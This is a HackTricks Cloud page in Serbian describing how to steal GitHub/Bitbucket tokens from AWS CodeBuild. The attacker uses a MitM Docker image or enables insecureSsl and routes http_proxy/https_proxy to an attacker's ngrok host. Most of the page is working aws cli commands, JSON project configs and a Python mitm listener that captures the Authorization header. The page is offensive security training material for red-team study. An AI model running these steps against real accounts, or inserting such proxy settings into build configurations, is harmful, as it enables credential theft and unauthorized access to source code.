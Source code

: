 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Oporavak konfigurisanih tokena sa Github/Bitbucket

Prvo, proverite da li postoje bilo akreditivi izvora koji su konfigurirani koje biste mogli da iscurite:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Ako otkrijete da je autentifikacija, na primer, za Github postavljena na nalogu, možete **izvući** tu **pristup** (**GH token ili OAuth token**) tako što ćete naterati Codebuild da **koristi specifičnu docker sliku** za pokretanje izgradnje projekta.

U tu svrhu možete **napraviti novi Codebuild projekat** ili promeniti **okruženje** postojećeg da postavite **Docker sliku**.

Docker slika koju možete koristiti je [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Ovo je vrlo osnovna Docker slika koja će postaviti **env promenljive `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. Ovo će vam omogućiti da presretnete većinu saobraćaja hosta navedenog u **`https_proxy`** i **`http_proxy`** i verujete SSL CERT-u navedenom u **`SSL_CERT_FILE`**.

1. **Kreirajte i otpremite svoju Docker MitM sliku**
* Pratite uputstva iz repozitorijuma da postavite svoju proxy IP adresu i postavite svoj SSL certifikat i **izgradite docker sliku**.
* **NE POSTAVLJAJTE `http_proxy`** da ne biste presreli zahteve ka metadata endpoint-u.
* Možete koristiti **`ngrok`** kao `ngrok tcp 4444` da postavite proxy na vaš host.
* Kada izgradite Docker sliku, **otpremite je na javni repozitorijum** (Dockerhub, ECR...)
2. **Postavite okruženje**
* Kreirajte **novi Codebuild projekat** ili **izmenite** okruženje postojećeg.
* Postavite projekat da koristi **prethodno generisanu Docker sliku**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Postavite MitM proxy na vašem hostu**

* Kao što je navedeno u **Github repozitorijumu**, možete koristiti nešto poput:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Verzija **mitmproxy-a koja je korišćena je 9.0.1**, prijavljeno je da sa verzijom 10 ovo možda neće raditi.
{% endhint %}

4. **Pokrenite izgradnju i zabeležite akreditive**

*   Možete videti token u **Authorization** header-u:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Ovo se takođe može uraditi iz aws cli sa nečim poput

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Putem insecureSSL

**Codebuild** projekti imaju podešavanje nazvano **`insecureSsl`** koje je skriveno na vebu i može se promeniti samo putem API-ja.\
Omogućavanje ovoga omogućava Codebuild-u da se poveže sa repozitorijumom **bez provere sertifikata** koji nudi platforma.

* Prvo treba da enumerišete trenutnu konfiguraciju sa nečim poput:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Zatim, sa prikupljenim informacijama možete ažurirati postavku projekta **`insecureSsl`** na **`True`**. Sledeći je primer mog ažuriranja projekta, obratite pažnju na **`insecureSsl=True`** na kraju (ovo je jedina stvar koju treba da promenite iz prikupljene konfiguracije).
* Pored toga, dodajte i env varijable **http\_proxy** i **https\_proxy** koje upućuju na vaš tcp ngrok kao:
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Zatim pokrenite osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji su označili proxy varijable (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na kraju, kliknite na **Build the project**, **akreditivi** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~Putem HTTP protokola~~

{% hint style="success" %}
**Ova ranjivost je ispravljena od strane AWS-a u nekom trenutku tokom nedelje 20. februara 2023. (mislim u petak). Tako da napadač više ne može da je zloupotrebi :)**
{% endhint %}

Napadač sa **povišenim dozvolama u CodeBuild-u mogao bi da iscuri Github/Bitbucket token** koji je konfigurisan ili ako su dozvole konfigurirane putem OAuth, **privremeni OAuth token koji se koristi za pristup kodu**.

* Napadač bi mogao da doda promenljive okruženja **http\_proxy** i **https\_proxy** u CodeBuild projekat koje upućuju na njegovu mašinu (na primer `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Zatim, promenite URL github repozitorijuma da koristi HTTP umesto HTTPS, na primer: `http://github.com/carlospolop-forks/TestActions`
* Zatim, pokrenite osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji su označile proxy promenljive (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na kraju, kliknite na **Build the project**, **akreditivi** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sada će napadač moći da koristi token sa svoje mašine, da izlista sve privilegije koje ima i (zlo)upotrebi lakše nego korišćenjem CodeBuild servisa direktno.
{% endhint %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
